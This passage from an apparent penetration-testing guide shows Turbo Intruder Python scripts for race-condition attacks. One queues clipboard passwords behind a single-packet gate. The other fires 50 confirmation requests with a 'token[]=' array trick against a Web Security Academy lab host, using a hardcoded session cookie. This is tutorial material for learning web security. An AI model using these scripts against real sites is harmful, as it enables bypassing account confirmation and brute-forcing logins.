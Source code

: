 <figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

If you are going to **send different values**, you could modify the code with this one that uses a wordlist from the clipboard:

```python
    passwords = wordlists.clipboard
    for password in passwords:
        engine.queue(target.req, password, gate='race1')
```

{% hint style="warning" %}
If the web doesn't support HTTP2 (only HTTP1.1) use `Engine.THREADED` or `Engine.BURP` instead of `Engine.BURP2`.
{% endhint %}

* **Tubo Intruder - HTTP2 single-packet attack (Several endpoints)**: In case you need to send a request to 1 endpoint and then multiple to other endpoints to trigger the RCE, you can change the `race-single-packet-attack.py` script with something like:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # Hardcode the second request for the RC
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''
    
    # For each attempt (20 in total) send 50 confirmation requests.
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'aUser' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)
```
